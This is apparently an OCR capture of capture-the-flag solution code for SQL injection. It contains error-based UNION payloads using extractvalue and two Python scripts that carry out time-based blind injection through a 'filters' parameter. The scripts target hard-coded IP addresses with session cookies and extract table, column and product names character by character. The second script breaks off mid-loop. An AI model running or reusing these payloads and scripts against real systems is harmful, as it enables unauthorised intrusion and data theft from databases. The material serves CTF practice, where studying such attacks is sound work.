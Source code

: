 ```
payload = "00' UNION select 1,2, extractvalue(1,concat(0x3a,(select referer from referers))) -- "
#payload = "%00%0a' UNION select 1,2, extractvalue(1,concat(0x3a,(select COLUMN_NAME from infoorrmation_schema.COLUMNS WHERE TABLE_SCHEMA = \"agentxer\" && TABLE_NAME = \"referers\" LIMIT 1,1))) -- "
#payload = "%00%0a' UNION select 1,2, extractvalue(1,concat(0x3a,(select TABLE_NAME from infoorrmation_schema.TABLES WHERE TABLE_SCHEMA = \"agentxer\" LIMIT 0,1))) -- "

select id,username from users where id = '1' union select 1,extractvalue(null,concat(0x0a,database())) -- -                    '



This challenge the `filters` parm have the sql injection 

sql injection in order by clause

payload:   data = {'filters':'if(ord(substr((select/**/group_concat(column_name)/**/from/**/information_schema.columns/**/where/**/table_schema=database()),'+str(i)+',1))='+str(j)+',sleep(1),1)'}


import requests
import time

header = {'Cookie':'PHPSESSID=621i7cn3m8ibhv3or2cgf9rblh'}
flag = 'pineapple,pixels,doors,flowers,fusion,'
for i in range(len(flag)+1,300):
    for j in range(32,127):
        t1 = time.time()
        data = {'filters':'if(ord(substr((select/**/group_concat(name)/**/from/**/products),'+str(i)+',1))='+str(j)+',sleep(1),1)'}
        conn = requests.post('http://65.0.4.132/home.php',data=data, headers=header)
        r1 = conn.text
        #print r1
        t2 = time.time()
        #print t2-t1, j
        if t2-t1 > 1:
            flag += chr(j)
            print flag
            break

import requests as r

url = 'http://65.0.54.62/home.php'
cookie={'PHPSESSID':'d84q2cg0st4ugafitta6o59lc5'}

#table length extraction
print('Starting length extraction: \r\n')
for i in range(1,20):
    #print(' currentlength '+str(i))
    payload='1,(select/**/if(((select/**/length(group_concat(table_name))/**/from/**/information_schema.tables/**/where/**/table_schema=database())='+str(i)+'),NULL,sleep(1)))'
    res = r.post(url,cookies=cookie,data={'filters':payload})
    if(res.elapsed.total_seconds()<4.00):
        tabllength = i
        print('Length of the tables concatenated:'+str(i))
        #print(res.text)
        print(res.elapsed.total_seconds())
        break


print('starting table name extraction: \r\n')
tablename=''
for i in range(1,tabllength+1):
    for j in range(97,122):
```
